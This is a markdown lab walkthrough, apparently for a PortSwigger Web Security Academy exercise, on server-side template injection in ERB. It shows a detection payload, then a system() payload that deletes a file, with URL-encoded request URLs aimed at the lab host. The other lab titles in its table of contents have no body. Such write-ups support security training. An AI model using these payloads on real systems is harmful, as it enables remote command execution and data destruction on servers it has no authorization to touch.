 
# Server-side template injection


## Table of Contents

- [Basic server-side template injection](#basic-server-side-template-injection)
- [Basic server-side template injection (code context)](#basic-server-side-template-injection-code-context)
- [Server-side template injection using documentation](#server-side-template-injection-using-documentation)
- [Server-side template injection in an unknown language with a documented exploit](#server-side-template-injection-in-an-unknown-language-with-a-documented-exploit)
- [Server-side template injection with information disclosure via user-supplied objects](#server-side-template-injection-with-information-disclosure-via-user-supplied-objects)

## Basic server-side template injection
Reference: https://portswigger.net/web-security/server-side-template-injection/exploiting/lab-server-side-template-injection-basic


### Quick Solution
The description already says that the template engine used is *ERB*. Looking online I found that a payload to execute commands is the following:
```
<%= system("rm /home/carlos/morale.txt") %>
```


### Solution
1. Notice that when you try to view more details about the first product, a GET request uses the message parameter to render "``Unfortunately this product is out of stock``" on the home page.
2. In the ERB documentation, discover that the syntax ``<%= someExpression %>`` is used to evaluate an expression and render the result on the page.
3. Use ERB template syntax to create a test payload containing a mathematical operation, for example:
```
<%= 7*7 %>
```
4. URL-encode this payload and insert it as the value of the ``message`` parameter in the URL as follows, remembering to replace ``your-lab-id`` with your own lab ID:
```
https://your-lab-id.web-security-academy.net/?message=<%25%3d+7*7+%25>
```
5. Load the URL in your browser. Notice that in place of the message, the result of your mathematical operation is rendered on the page, in this case, the number 49. This indicates that we may have a server-side template injection vulnerability.
6. From the Ruby documentation, discover the ``system()`` method, which can be used to execute arbitrary operating system commands.
7. Construct a payload to delete Carlos's file as follows:
```
<%= system("rm /home/carlos/morale.txt") %>
```
8. URL-encode your payload and insert it as the value of the message parameter, remembering to replace ``your-lab-id`` with your own lab ID:
```
https://your-lab-id.web-security-academy.net/?message=<%25+system("rm+/home/carlos/morale.txt")+%25>
```
